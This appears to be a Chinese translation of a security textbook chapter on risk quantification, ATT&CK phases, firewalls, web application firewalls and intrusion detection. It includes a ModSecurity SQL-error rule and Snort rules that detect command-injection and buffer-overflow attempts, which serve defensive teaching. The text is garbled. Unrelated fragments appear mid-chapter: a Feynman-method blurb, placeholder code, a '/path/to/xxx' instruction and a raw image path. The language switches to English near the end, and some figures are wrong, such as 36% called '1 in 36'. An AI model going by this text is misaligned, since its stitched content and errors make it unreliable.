简单来说，风险是损失与概率的交集。这是一个简化的说法，而且容易产生常见的误解。更完整的表述可在 `Dictionary.com` 对 *risk* 的定义中找到，它将风险定义为“遭受伤害或损失的概率暴露”。这里的“概率”即为可测量的概率。损失或伤害也是可测量的。这意味着我们可以为风险赋予数值，它不必是模糊或抽象的。

经常可以看到 *risk* 这个词被用来表示 *chance* 或 *probability*。有人可能会说“某事件有风险”，实际意思是“该事件发生的概率”。如果某人说“存在某事件的风险”，真正的意思是“该事件发生的概率”，且该事件通常被视为负面。只要有足够的数据，概率可以计算。最简单的计算方法是用事件数除以总结果数，以比率的形式表达。

例如，四月份的任意一天落在周末的概率是多少？四月有 30 天，这构成了总的结果数。通常一个 30 天的月份会有 8 个周末天，因此事件数为 8。概率为 8/30，即 8 中 30。如果想更精确，可以化简为 4 中 15，但 8 中 30 已经足够说明信息来源，也更直观。若想进一步细化，可以针对特定四月询问：根据该月的日历安排，是否有超过 8 个周末天。

信息安全事件的概率计算更为困难。企业遭受分布式（取决于你使用的缩写）拒绝服务攻击的概率是多少？根据 Imperva Incapsula 的在线 DDoS 停机成本计算器，一家拥有 2,500 名员工且从事电子商务的公司被 DDoS 攻击的概率为 36%。这意味着 36 起事件中的 1 起，即 36% 的概率。在此情境下，概念变得非常模糊。这里的“事件”指什么？“结果”指什么？每 100 次网络连接尝试，36 次会是 DDoS 报文吗？这说不通。正如我所说，计算风险的概率颇具挑战，即便计算出结果，理解其含义也可能困难。

损失或许更易于量化，但即便如此仍可能面临困难。假设你的业务被入侵，部分知识产权被窃取。因为知识产权并未消失，仍在你的控制范围内，那么实际损失是多少？这取决于窃取者是谁以及他们窃取了什么。如果另一国家的人窃取了它，而你的业务在那个国家不销售任何产品，是否真的存在损失？

显然，清理成本是确定的。即便如此，也存在挑战。大部分成本属于“软成本”。如果你不聘请外部承包商进行清理，而是使用已在工资名单上的内部人员，那么成本体现在对其他项目的推迟上。外部承包商则产生硬成本，以你公司账单的形式出现，直接影响底线，这点毫无疑问是可以量化的。但如果是内部人员完成清理，成本如何计算？你已经在支付他们的工资，成本体现在对其他项目的机会成本。

我们已经可以得到损失和概率的数值，进而通过两者相乘计算风险：`risk = probability * loss`。美元符号用于明确结果的单位，表明最终数值为美元。该风险值更具比较意义。通过量化损失金额和概率，你可以比较不同事件的风险，而不是单纯比较损失或概率。

人们常把风险等同于损失。对某些人而言，高风险事件意味着灾难性后果。这符合大脑的 wiring —  — 我们倾向于关注坏事并试图规避它们。因此，如果你问别人生活中高风险的事件是什么，信息安全之外的例子可能是致命的驾驶事故。他们只考虑最极端的潜在后果，而不计算实际发生的概率。这种认知偏差称为 *catastrophizing*，在信息安全风险评估时并不有益。

风险用于识别什么是重要的。任何信息安全程序的目标都是保护重要且有价值的资产。量化“有价值”的一种方式是使用损失数值。损失越大，可能意味着资产价值越高。计算整体风险值后，你可以判断资源应放在哪里。若某事件的风险值很高，通常应加大资源以防范该事件。当然，预测所有可能的事件并不容易，这正是信息安全的难点 —  — 理解组织内部的事件、概率和结果，然后制定相应的防护措施。


当涉及风险时，还有其他需要考虑的概念。第一个概念是`威胁`。威胁是指有可能导致`保密性`、`完整性`或`可用性`泄露的事项。该泄露可能的途径称为`漏洞`。漏洞是系统中的弱点，可能体现在`其软件`、`配置`或`整个信息解决方案的组合方式`上。当漏洞被触发时，称为`利用`。我们利用漏洞，但并非所有漏洞都能被利用。`时序条件`是一种可能无法被利用的漏洞示例。代码审查显示存在问题，其结果可能导致`数据损坏`——例如。然而，由于程序执行的速度，几乎不可能在两条指令之间插入修改。显然，并非所有漏洞都能被任何人利用。

`威胁实体`或`威胁行为体`是一个实体，如个人或团体，能够实例化威胁。威胁实体是`威胁的实现者`。威胁实体利用漏洞的路径称为`威胁向量`。所有这些概念都很重要，因为它们帮助更好地理解风险所在。一旦你确定了关心的资源，就应思考哪些`威胁实体`可能关注这些资源。这有助于识别潜在的`漏洞`。一旦你知道了你的`漏洞`以及可能的`威胁向量`，就可以开始思考如何`防范`这些威胁。

`信息保障`是识别信息资产风险并实施控制以更好保护资产或资源的实践。控制是确保信息安全资源的`保密性`、`完整性`或`可用性`的手段。这些控制可能是`预防性`、`检测性`或`纠正性`的。它们的目标或功能就是这些控制的定义。预防性控制旨在`防止不良事件发生`。不幸的是，这并非总是可行，因此`检测性控制`很有用。检测性控制是指`发现`保密性、完整性或可用性的违规行为，以便进行处理。最后，`纠正性控制`旨在`限制已造成的损害范围`。

安全控制有两个因素。除了前文所述的`目标`之外，它们还属于三种类型之一。控制可分为`技术型`、`行政型`或`物理型`。技术控制是`硬件或软件`，已被实施以保护资产。这可能包括`身份验证方案`、`防火墙`、`防病毒软件`，或`安全事件与事件管理（SIEM）`，用于警报告知不良事件的发生。行政控制是`政策`、`程序`或`指南`，指导如何实施保护措施。物理控制则用于`在物理层面阻止人们接近资产`，即防止有人直接走到建筑物并进入。物理控制不涉及`逻辑访问`，例如远程登录 SSH 服务器。物理控制可能是`门锁`，也可能是`闭路电视摄像头`，用于观察活动以检测不良行为。

信息保障关乎`风险管理`。这意味着不仅要识别风险并对其进行分类，还要就如何处理风险做出`业务决策`。企业通常会根据`风险等级`和`风险容忍度`——即企业对管理风险的舒适程度——采取不同的风险处理方式。这些就是企业内部常见的风险处理方式。

*   `接受` 风险接受是一种`知情过程`，企业充分理解风险的本质，即`影响`（实际化风险将产生的金额）和`概率`，并选择不采取任何措施。这意味着如果风险实际发生，企业需对所有损失和成本负责，包括可能产生的其他损害。这种做法意味着对已识别风险相关的情形`不做任何其他处理`。

*   `转移` 企业可能选择`将风险转移`给另一实体进行管理。常见的实现方式是`购买保险`。你几乎肯定为汽车和住房（或租赁住房）投保。你已选择将这些资产相关的风险转移给保险公司，即在发生索赔时，你转交风险，保险公司承担责任，以`保费`形式的金钱交换。

*   `缓解` 风险缓解是实施`控制措施`以降低风险。风险减少可发生在构成风险的两个向量——`损失`和`概率`——上。你可以实施控制措施，降低风险被实现的`概率`。例如，通过实施`技术控制`，如`限制对资源的访问`至少数特定地点的人员。

*   `避免` 企业可能选择`不参与`可能引入风险的活动，这称为`风险避免`。这虽是合法做法，但如果该活动对业务至关重要，则可能无法实现。企业需选择其他方法，以在获得活动预期收益的同时管理风险。

### Policies, Standards, and Procedures

虽然我们信息安全专业人员常常把`安全本身`视为最重要的，但事实是`安全是业务使能器，而非业务驱动力`。这意味着在大多数情况下，`安全并不直接增加利润`。缺乏安全或安全弱点会`削弱利润`。由于安全是业务使能器，业务方会设定`重要事项`及`保护手段`的参数。它通过制定`政策`来实现。政策创建完成后，`标准`会基于这些政策构建。最接近实际工作的层面是`程序`。程序是依据标准开发的。

#### Security Policies

安全策略是一份关于`业务资源`的意图声明。它定义了公司认为的`安全`——即需要保护的资源、资源应如何正确使用、资源如何或应如何被访问。这些策略对于良好的`企业治理`至关重要，因为它们是管理层划定的界限。这意味着管理层设定基调和方向不仅是好主意，也是`必须`的。管理层和董事会有义务对业务的`利益相关方`（即个体所有者或股东）负责。

安全策略不仅定义重要资源，也设定`员工的期望`。例如，许多组织制定`可接受使用政策`，规定用户可以或不可以做什么。员工违反该政策的行为通常会导致`纪律处分或解雇`，具体取决于违规程度及对业务的影响。当然，并非所有策略都直接针对用户行为。还有其他安全策略更侧重于`信息技术或信息安全人员`。

-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者`Richard Feynman`。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

虽然攻击者类型各异，包括可能仅旨在让公众意识到某种观点的 `hacktivists`，但最危险的往往是被称为 `advanced persistent threats` (`APT`) 的攻击者。这些攻击者使用大量的 `TTPs` 来进入企业环境，并尽可能长时间地保持在环境内。在某些情况下，这些攻击者可能驻留数年。最近的记忆中，已有攻击者被发现长期停留七年、十年或更久。虽然也会出现只进行一次攻击、针对个人用户、快速获取目标后离开的攻击者，但我们看到的越来越多的是这类 APT 攻击者。在查看 ATT&CK 框架的不同阶段时，这点值得注意。

ATT&CK 框架分为以下阶段。你可能会发现这些阶段不一定是攻击者按顺序进行的，因为可能存在重叠或来回跳转。此外，某些 TTP 会在不同类别中出现。

# Reconnaissance

在该阶段，攻击者会收集目标的信息。他们可能会在公开来源中搜索 freely available 数据，也可能使用他们拥有访问权限的闭源来源。此外，他们可能会在此阶段进行扫描活动。该阶段还包括利用 `phishing` 手段诱骗受害者泄露数据。

# Resource Development

攻击者需要大量工作来构建用于发起攻击的基础设施。这可能包括注册域名、创建账户、获取系统（通常是通过入侵其他受害者并利用其计算资源），以及获取他们自身不具备的工具。他们可能需要租用或购买通过犯罪渠道获得的工具集。

# Initial Access

在此阶段，攻击者会 compromise 第一个系统。他们可能入侵公开可访问的应用程序或网站，或通过 `phishing` 将恶意软件安装到目标系统上。此阶段即为攻击者获得组织的初始立足点。任何提供访问权限的技术，即使仅是利用已泄露的凭据，都属于此阶段。

# Execution

攻击者有很多手段可以执行代码。攻击者不一定拥有直接交互访问权限，意味着他们不能简单地双击图标或在命令行运行程序。他们可能依赖其他技术使代码运行，例如使用计划任务、进程间通信、系统服务，或针对特定操作系统的技术，如使用 Windows Management Instrumentation (`WMI`)。

# Persistence

在持久化阶段，攻击者试图保持对已被 compromise 的系统的持续访问。系统重启、电源关闭后重新开启，或用户登出后再次登录时，正在执行的程序会停止，除非有机制使其再次启动。由于攻击者不在系统前直接操作，他们需要远程访问的手段，通常是已在系统上安装的软件。该软件需要在系统启动时执行。系统服务是常见实现方式，计划任务、系统和用户配置（如 Windows 注册表键）也是有效手段。Linux 系统可使用 `.bashrc` 等启动文件在用户登录时执行程序。

# Privilege Escalation

在特权提升阶段，攻击者力求获得最高权限。普通用户的访问权限有限，他们只能访问数据并运行程序，但无法执行如安装系统服务或提取系统内存等高级操作。因此，获得更高权限是有帮助的。攻击者可能通过在已拥有管理员权限的进程中注入代码、在启动时运行服务（启动过程自带提升权限），或利用其他 TTP 来提升权限。由于特权提升是保持在环境中并进一步收集所需数据（如凭据）的必要步骤，相关 TTP 很多。

# Defense Evasion

攻击者必须绕过多种防御措施。企业以及个人会在系统上部署防护软件，如防病毒或其他检测/防范工具。攻击者需要以不被视为恶意或可疑的方式执行软件。常见手段包括使用根包（rootkit）等老派技术，既能提供远程访问，又能隐藏所有被使用的软件。此阶段（或类别）拥有最多的 TTPs。例如，特权提升目前已有 12 种技术，而防御规避有 37 种。

# Credential Access

系统和应用通常需要用户名和密码来授权访问。攻击者希望窃取这些凭据以便在其他地方使用。他们可能通过 `phishing` 邮件诱骗受害者提供凭据，或通过内存 dump 从操作系统或持有凭据的应用中提取。攻击者还可能强迫网络服务器进行认证，从而获取凭据。

# Discovery

攻击者通常不会满足于仅入侵单一系统。他们会寻找更多可攻击的系统。攻击者会审视环境中可用的系统和应用，收集大量细节，以判断还能进一步访问什么。

# Lateral Movement

除了发现外，侧面移动的目的还在于确定从当前系统还能攻击哪些其他系统。攻击者可能利用已有的凭据、远程利用其他系统，或通过当前受害者的邮件联系其他潜在目标，以扩大攻击面。目标是 compromise 更多系统，从而获取更多数据。

# Collection

与发现类似，收集阶段也是 gathering 信息。这可能是用于攻击其他系统的情报，也可能是想窃取（exfiltrate）以出售或用于其他目的的数据。一旦攻击者开始收集数据，往往比其他阶段更为显著，因为会留下痕迹。数据需要暂时存储，可能会在显眼位置出现名称奇怪或具有辨识特征的文件。

# 命令和控制

请记住，攻击者希望尽可能长时间地保持对系统的访问。毕竟，如果他们针对你的组织，你拥有他们想要的东西。无论是知识产权、客户信息、用户名和密码，还是信用卡数据，你都会继续创建他们想要的东西。没有意义在入侵后离开，浪费这个机会。这意味着他们需要对整个环境保持远程控制。在这一阶段，他们会在环境中的系统上设置远程访问。攻击者可能会利用常用协议（如超文本传输协议 HTTP）并通过在其受控服务器与你环境中的系统之间嵌入命令来滥用该协议。他们也可以滥用其他协议，如域名系统（DNS）或 Internet 控制消息协议（ICMP）。

# 数据外传

即使他们继续留在环境中，他们仍想将收集到的数据取出。这就是数据外传阶段。他们同样可能使用常用协议，因为这些协议不太可能被怀疑。目标始终是尽可能规避检测。即使使用常用协议，你也可以通过遵循框架提供的 TTP（技术、战术和程序）来发现攻击者的存在。例如，如果攻击者通过 DNS 发送数据，消息的大小往往会异常大，因此查找这些异常大的消息可以让你在攻击者进行数据外传时将其捕获。

# 影响

这是攻击者可能决定“烧毁房子”的阶段。一些攻击者在得到他们想要的东西后，会在离开时一锤定音，摧毁一切。另一些攻击者在被发现时也会如此。当你试图将他们从你的网络和系统中赶出时，他们在离开的路上会尽可能多地破坏东西。这可能包括数据破坏、磁盘擦除、数据加密（这意味着勒索软件攻击属于此类），拒绝服务攻击或其他类似的破坏性行为。

文中提到的 TTP（技术、战术和程序）在 MITRE 网站（https://attack.mitre.org/matrices/enterprise/）的矩阵中可找到，并且会定期更新，随着更多已知技术而更新。每个 TTP 都有相应的细节，MITRE 会提供缓解措施，以防止攻击成功。你也可以获得关于如何判断攻击者是否使用该 TTP 的建议。

## 安全技术

安全程序必然需要某种技术来实现。企业内部可使用的技术解决方案数量不断增长。保护企业的最佳方式不再是仅在网络前部部署防火墙并认为自己已安全，即使这在过去曾被视为事实。今天，攻击向量与十年前有了巨大变化。当前的技术解决方案是多层的，并不完全专注于防止攻击。

当前的假设是，如果期望 100%成功地拦截所有攻击，则防止攻击是不可能的。因此，检测至关重要。即使是检测解决方案也是多层的，因为网络有众多入口点。由于检测是被动的努力，它需要随后进行主动响应。这可以是 incident response（事件响应），而事件响应可能需要自动收集取证 artifacts（取证数据）。所有这些可能需要不同的技术解决方案。

### 防火墙

防火墙是传统的网络安全设备。仅仅说防火墙已部署并不能真正说明其作用，因为网络堆栈上存在多种类型的防火墙。防火墙最初的含义是用来限制火灾蔓延的墙体。你实施防火墙是为了将火灾限制在建筑的特定区域。汽车中的防火墙同样用于限制火灾，防止其蔓延到乘客舱。该术语在 20 世纪 80 年代末被用于描述早期用于保护网络的技术。

#### 数据包过滤器

在基本层面上，防火墙是数据包过滤器。许多设备提供数据包过滤功能，有时通过访问控制列表（ACL）实现。路由器和交换机通常具备数据包过滤能力。数据包过滤是根据协议、端口和地址来决定数据包的去向。源地址和目的地址都可以基于进行过滤。

数据包可以被丢弃，意味着它们不会转发到目的地，并且不会向发送方发送任何响应。它们也可以被拒绝，这意味着它们不会转发到目的地，但如果设备遵循协议规范，会向发送方发送 ICMP 错误消息，指示目的地不可达。这种做法既礼貌，又符合协议规范。但在系统安全方面，丢弃消息可能更合理。如果消息被丢弃，发送系统无法知道发生了什么，目标系统陷入“黑洞”状态。

当然，数据包也可以被接受。这可以是基于规则的做法，也可以是策略性的。数据包过滤器可能有一条策略规则，决定过滤器的行为。这意味着默认规则适用于所有流量，除非有例外。默认拒绝策略是最安全的实现方式，即除非明确允许，否则丢弃所有流量。你也可以采用默认接受策略，即所有流量默认放行，除非明确阻止。

如果你使用 Linux 系统，可能会接触到数据包过滤器。虽然大多数 Linux 发行版自带的主机防火墙功能更强大，但它也可以作为基本的数据包过滤器工作。你可以在 Linux 内核的 iptables 防火墙上为不同的链设置策略。例如，下面的命令会在 INPUT、OUTPUT 和 FORWARD 链上设置默认拒绝策略：

```
[iptables Policy Settings]
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP
```

数据包过滤功能简单直接。虽然这些过滤器可以用于入站流量或限制内部用户访问特定端口或 IP 地址，但它们不擅长更复杂的过滤，例如允许响应内部发起的入站流量。为此，我们需要跟踪出站连接，因此需要比单纯的数据包过滤更强大的机制。

#### 状态检测

在最初的数据包过滤器出现后不久，便发展出状态检测防火墙。第一个状态防火墙出现在 20 世纪 80 年代末，与数据包过滤器同期问世。这些防火墙已经存在约三十年，但这并不意味着它们一直在持续使用。

-   [有状态防火墙](https://example.org)会跟踪客户端与服务器之间对话中的消息状态。这意味着防火墙必须拥有一个状态表，以便知道所有通过它的流量。对于传输控制协议（TCP），理论上更容易，因为标志位会描述流量的状态。只有 SYN 标志打开的消息是一个新建立的连接，直到三次握手完成为止。完成后，流的状态变为已建立（ESTABLISHED）。在某些情况下，消息流可能是相关的。例如，文件传输协议（FTP）有时会从内部发起连接到外部，即从服务器到客户端。在这种情况下，用于传输文件的服务器到客户端连接与客户端到服务器的控制连接是相关的。

-   即使在 TCP 中，标志位也不完整的故事。因为仅凭标志位就可以发送带有正确标志的消息，从而绕过只检查标志的防火墙。用户数据报协议（UDP）本身没有固有状态，这使得无法通过查看任何标志或头部来推断状态。有状态防火墙不仅仅查看标志或头部，它们会跟踪所有通信流，以确定状态。它们会记录来往的消息及其方向性，从而知道哪一端是客户端，哪一端是服务器。

-   使用有状态防火墙时，你不仅可以基于端口和地址进行决策，还可以加入连接的状态。例如，下面的 iptables 规则允许所有 NEW 或 ESTABLISHED 状态的连接进入 22 端口（即安全壳 SSH 端口），并且允许已建立的连接在 eth0 接口上向外。默认拒绝策略下，新建立的连接不会被允许通过该接口。

```
[ iptables State Rules ]
iptables -A INPUT -i eth0 -p tcp --dport 22 -m state --state NEW,ESTABLISHED -j ACCEPT
iptables -A OUTPUT -o eth0 -p tcp --sport 22 -m state --state ESTABLISHED -j ACCEPT
```

-   这些规则让我们在决定允许或拒绝网络中的数据包时更进一步。虽然看起来不多，但这些能力为阻止恶意人员提供了很大潜力。

#### Deep Packet Inspection（深度包检测）

-   防火墙的一个主要问题是它们只允许已知服务通过。防火墙会允许连接到 Web 服务器的流量通过，这意味着针对 Web 服务器的攻击流量也会被放行。攻击流量会像普通客户端一样建立连接。从包过滤和有状态过滤的角度来看，这些消息会顺利通过。因此，我们需要更深入地检查。仅看协议头部是不够的，因为所有内容在头部看起来都正确且合法。我们需要检查更高层的内容。


- 深度包检测（DPI）防火墙会在包的负载中继续检查，而不仅仅是头部。通过这种方式，更容易识别恶意软件和其他入站攻击。DPI 防火墙需要签名来检测包中是否存在恶意内容，从而阻止流量进入网络。为了实现这一点，防火墙必须在做出任何判断之前解析整个消息，这意味着必须先收到并重新组装 IP 层的所有碎片。在某些情况下，可能需要整个流（无论是 UDP 还是 TCP）。这会导致消息到达时出现一定的延迟。

- 包过滤和有状态防火墙不需要重新组装，只要完整的 IP 头部和 TCP/UDP 头部已经到达。如果消息缺少完整的 IP 或 TCP/UDP 头部，那本身就是问题，因为这通常不足 100 字节。在 100 字节以下的数据包中进行碎片化可能是恶意流量的手段，用来欺骗防火墙或其他安全解决方案。它们是一体的。仅看头部是有限的，尤其是当今许多攻击是通过高层协议实现的。DPI 防火墙能够检查这些高层协议。

- 需要注意的一个考虑因素是，加密流量无法被检查。防火墙没有密钥来解密消息以查看其内容。任何在防火墙侧对加密的中间人方式都违背了大多数加密方案和用户的端到端预期。头部当然不是加密的。如果头部被加密，则任何中间设备都无法确定流量的去向。这意味着包过滤和有状态防火墙不受加密影响。而 DPI 防火墙则受影响。这意味着随着所有基于 Web 的连接都采用加密，DPI 防火墙在保护 Web 服务器方面作用不大。

#### 应用层防火墙

- 除了 DPI 防火墙，还有应用层防火墙。虽然这些防火墙也检查数据包，但它们通常针对特定协议。例如，在 VoIP 网络中，会使用一种名为 `session border controller`（SBC）的设备。该设备理解 VoIP 协议，通常是 H.323 或会话发起协议（SIP）。因此，它不仅能判断消息的有效性，还能动态打开洞口，允许实时传输协议（RTP）媒体消息通过，因为这些媒体消息使用的端口和协议与信令消息不同。

- SBC 是一个应用层防火墙的例子，因为它能够基于对应用层协议及其常见状态流的理解来决定允许流量通过。

- 另一个常见的应用层防火墙是 Web 应用防火墙（WAF）。WAF 使用一组规则来检测并阻止请求和响应。鉴于 Web 攻击的数量众多，保持这些规则是一项挑战。虽然有许多商业 WAF，但也有开源的 `ModSecurity`，它可以与 `Apache Web` 服务器一起使用。规则可能会很复杂，下面给出一个示例代码片段。

```
[ mod‑security Rule ]
        SecRule RESPONSE_BODY "@rx (?i)(?:supplied argument is not a valid
MySQL|Column count doesn't match value count at row|mysql_fetch_array\(\)|on
MySQL result index|You have an error in your SQL syntax;|You have an error in
your SQL syntax near|MySQL server version for the right syntax to
use|\[MySQL\]\[ODBC|Column count doesn't match|Table '[^']+' doesn't
exist|SQL syntax.*MySQL|Warning.*mysql_.*|valid MySQL result|MySqlClient\.)"
\
             "capture,\
             setvar:'tx.msg=%{rule.msg}',\
             setvar:tx.outbound_anomaly_score=+%{tx.critical_anomaly_score},\
             setvar:tx.sql_injection_score=+%{tx.critical_anomaly_score},\
             setvar:tx.anomaly_score=+%{tx.critical_anomaly_score},\
             setvar:tx.%{rule.id}-OWASP_CRS/LEAKAGE/ERRORS-
             %{matched_var_name}=%{tx.0}"
```

规则在响应体中查找 `@rx` 之后的消息，这表明后面的内容是正则表达式。正则表达式描述了规则用于匹配的消息。如果规则匹配成功，正则表达式的匹配结果会因为 `capture` 动作而被放入事务变量集合中。此外，还会将若干变量放入事务变量集合。

除了捕获信息外，这些信息可以记录、稍后引用或用于警报，`ModSecurity` 还可以将其作为动作进行阻止。这将阻止消息通过防火墙（WAF）。也就是说，WAF 位于受保护的 Web 服务器前面。有时，像 `ModSecurity` 这样的 WAF 会部署在网络边缘作为反向代理，客户端向反向代理发送请求，代理代表服务器处理请求，检查潜在的恶意请求，然后再转发到实际的 Web 服务器。响应也会经过反向代理。

这些只是应用层防火墙的一些示例。它们也被称为应用层 `网关`。任何能够基于应用层协议的运行情况做出决策，并能够阻止消息的设备，无论其应用层协议是什么，都可以被视为应用层防火墙。

#### Unified Threat Management

有时单独的防火墙不足以提供防护。即使是应用层防火墙，也需要保护用户。用户通常是网络中最易受攻击的点，并且经常成为社会工程学和恶意软件攻击的目标。统一威胁管理（UTM）设备将大量安全功能整合到单一系统中，该系统可放置在网络的单一位置。此 UTM 可取代防火墙、入侵检测和入侵防御设备，并提供防病毒保护。

这种做法的缺点是，您现在在网络中有一个单一的安全处理点。如果该设备出现故障，就没有备用措施。例如，如果防火墙失败，您仍然可以依靠入侵检测系统来捕获通过的内容，但这在 UTM 环境中并不存在。在 UTM 中，所有安全功能集中在一个位置，必须时刻运行且配置正确。

### Intrusion Detection Systems

您可以找到两种不同类型的入侵检测系统（IDSs）。第一种是基于主机的 IDS。基于主机的 IDS 监控本地系统的活动，例如关键系统文件的修改，也可以监控日志文件或审计其他系统行为。基于主机的 IDS 的挑战在于，一旦攻击者能够触发该 IDS，他们已经在系统内部，这意味着他们会知道 IDS 的存在并据此制定规划。

第二种类型是网络 IDS。与防火墙能够阻止或允许网络流量的数据包不同，网络 IDS 可以使用类似的规则生成日志消息。入侵检测规则通常可以基于网络栈的任意层。只要能够为想要记录或提醒的消息创建某种标识，就可以编写 IDS 规则。与防火墙类似，市面上有许多商业选项，也有开源选项，其中最知名的一个是 `Snort`，它目前由 `Cisco` 拥有，但仍然提供免费使用以及社区规则。

网络 IDS 监控经过网络接口的所有网络流量。因此，放置位置很重要。根据所使用的 IDS 产品，放置方式可能有所不同。一种做法是将 IDS 以并行方式（而非串行）放置在网络边缘，这样所有进入的网络流量都能被观察。图 3.3（`Figure 3.3`）展示了这种方式的简化示意图，IDS 位于防火墙后面但不在直接的流量路径中。流量会被引导到 IDS 进行检测，而不影响流量或导致网络故障。另一种做法是在网络的不同部分部署传感器，避免单点设备。这种方式在检测潜在的内部威胁时尤其有用。



**FIGURE 3.3** 网络图展示 IDS 部署位置

多年前，IDS 设备难以跟上网络流量的速率，因为它们必须检查每个数据包并与配置的所有规则进行比对。如今已不再如此，因为处理能力和系统总带宽显著提升。即便如此，在网络的不同部分部署多个传感器可以分担处理负载。

我们可以通过查看 `Snort` 规则来了解 IDS 的功能及工作方式。正如 `WAF` 规则一样，编写规则需要时间和努力，尤其是在试图检测数据包中的内容时。下面的代码片段展示了两条 `Snort` 规则示例，说明了 `Snort` 可以做什么以及它的工作原理。

```
[Snort Rules]

alert tcp $EXTERNAL_NET any -> $SQL_SERVERS 7210 (msg:"SQL SAP MaxDB shell command injection attempt"; flow:to_server,established; content:"exec_sdbinfo"; fast_pattern:only; pcre:"/exec_sdbinfo\s+[\x26\x3b\x7c\x3e\x3c]/i"; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop; reference:bugtraq,27206; reference:cve,2008-0244; classtype:attempted-admin; sid:13356; rev:7;)

alert tcp $EXTERNAL_NET any -> $HOME_NET 21064 (msg:"SQL Ingres Database uuid_from_char buffer overflow attempt"; flow:to_server,established; content:"uuid_from_char"; fast_pattern:only; pcre:"/uuid_from_char\s*?\(\s*?[\x22\x27][^\x22\x27]{37}/smi"; metadata:policy balanced-ips drop, policy max-detect-ips drop, policy security-ips drop; reference:bugtraq,24585; reference:cve,2007-3338; reference:url,supportconnectw.ca.com/public/ca_common_docs/ingresvuln_letter.asp; reference:url,www.ngssoftware.com/advisories/high-risk-vulnerability-in-ingres-stack-overflow; classtype:attempted-admin; sid:12027; rev:11;) 

```

`Snort` 规则以动作开头。您可以使用 `alert`（如上例所示）生成警报，该警报会发送到已配置的输出系统。此外，还可以使用 `log`、`drop`、`reject`、`pass` 等动作，这些动作超出了传统 IDS 的功能范围，但 `Snort` 在规则配置中均可使用。动作之后，需要配置关于报文头部的细节，包括协议、源和目的地址以及端口。这里的 `->` 表示流的方向。

进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

Commonly, you would use `alert` or `log` in the case of an IDS, since the intention of an IDS is just to detect events. The `alert` assumes that someone is paying attention to what the IDS is emitting and taking actions based on the alert and a subsequent investigation. There are, though, cases where you may want the IDS itself to do something with what it found.

### Intrusion Prevention Systems

An intrusion prevention system (IPS) takes an IDS a step further. As noted earlier, `Snort` has actions including `drop` and `reject`. These are actions that are beyond the capability of `Snort` itself. `Snort` monitors network traffic and parses through it to identify packets that contain possibly malicious contents, as identified by the rules. To have `Snort` run as an IPS, it has to be placed inline, meaning it has to be a device in the path of traffic into and out of the network. Any IPS would have to be similarly configured in order to have the ability to block any network traffic. Figure 3.4 is a simplified network diagram showing the potential placement of an IPS.

